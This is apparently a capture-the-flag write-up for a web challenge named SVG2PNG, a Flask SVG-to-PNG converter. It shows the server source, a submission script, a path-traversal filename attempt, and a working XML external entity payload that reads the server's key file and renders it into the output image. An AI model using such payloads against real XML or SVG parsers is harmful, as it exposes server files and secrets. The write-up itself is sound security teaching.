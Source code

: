 #  SVG2PNG
tags: web

## Description

>Convert your vector images to a facebook friendly format!

![](portal.png)

The task provides the code running the converter:
```python
import json
import os
import sys
import io

from svglib.svglib import svg2rlg
from reportlab.graphics import renderPM
from tempfile import NamedTemporaryFile, TemporaryFile
from flask import Flask, request, render_template, send_file
from lxml import etree


app = Flask(__name__)

UPLOAD_FOLDER = "/tmp"
SOURCE = open(__file__).read()
INDEX = open("templates/index.html").read()

app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER
# Our secret keys have the form flag{...}
app.secret_key = open("/opt/key.txt")


def convert_svg_png(svgfile):
    tmpfile = NamedTemporaryFile(delete=False)
    tmpfile.write(svgfile.stream.read())
    tmpfile.close()
    drawing = svg2rlg(tmpfile.name)
    os.unlink(tmpfile.name)


    tmp_output = io.BytesIO()
    renderPM.drawToFile(drawing, tmp_output, fmt="PNG")
    tmp_output.seek(0)

    response = send_file(
        tmp_output,
        attachment_filename="converted.png",
        mimetype="image/png"
    )

    return response


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        # check if the post request has the file part

        if 'file' not in request.files:
            return "No file uploaded"
        else:
            svgfile = request.files['file']

            if svgfile.filename == '':
                return "No file provided"

            if svgfile:
                if os.fstat(svgfile.stream.fileno()).st_size > 400:
                    return "File to big!"
                else:
                    try:                    
                        return convert_svg_png(svgfile)
                    except:
                        return "Error while processing svg file"

    return INDEX


@app.route("/source")
def source():
    return SOURCE, 200,  {'Content-Type': 'text/plain'}


if __name__ == '__main__':
    app.run()
```

## Solution

To begin with I created a base svg image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="100mm">
</svg>
```

and a python script to automatically submit the image:
```python
import requests

url = "http://svgtopng.uni.hctf.fun/"
svg = "small.svg"
files = {'file': ('please_give_me_the_key.svg', open(svg,'rb')) }

response = requests.post(url, files=files)
print response

response_file = response._content
if len(response_file) < 100:
    print response_file
else:
    with open('flag.png', 'wb') as new_file:
        new_file.write(response_file)
```

Looking at the code the first idea was trying some path traversing via the image filename, changing the fourth line in the script like this:

```python
files = {'file': ('../../../opt/key.txt', open(svg,'rb')) }
```

This approach didn't give any result, so the next idea was trying to include the flag into the converted image. Since I didn't know xml syntax very well I googled a while, and after some trial I came up with this svg that includes the file *key.txt* as a text into the image:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY  data SYSTEM
  'file:/../../opt/key.txt'> ]>
<svg
   xmlns="http://www.w3.org/2000/svg"
   width="200mm"
   height="10mm">
   <text x="10" y="15" fill="red">
      &data;
   </text>
</svg>
```

After running the script with the new svg, the response image contains the flag:

![](flag.png)

Here it is!

Btw check out the easter egg in the flag. I've no idea who he is but it's amazing:
**flag{[https://www.youtube.com/watch?v=e5nyQmaq4k4#N1c3_W0rk!](https://www.youtube.com/watch?v=e5nyQmaq4k4#N1c3_W0rk!)}**
